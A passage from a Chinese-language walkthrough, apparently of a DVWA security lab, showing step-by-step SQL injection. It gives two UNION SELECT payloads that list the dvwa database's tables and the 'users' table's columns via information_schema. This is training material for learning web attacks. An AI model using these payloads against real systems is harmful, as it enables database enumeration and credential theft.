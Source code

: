 根据上一步我们知道了我们数据库的名称，我们可以只查看 dvwa 数据库的表有哪些：

```
' or 1=1 union select null, table_name from information_schema.tables where table_schema='dvwa' #
```

![show-tables-dvwa](../imgs/wm_262.png)

通过上述的结果我们可以了解到，数据库中所有表的名称，通过表名我们还可以通过这样的方式查看所有的表项：

```
' or 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

![show-tables-items](../imgs/wm_263.png)
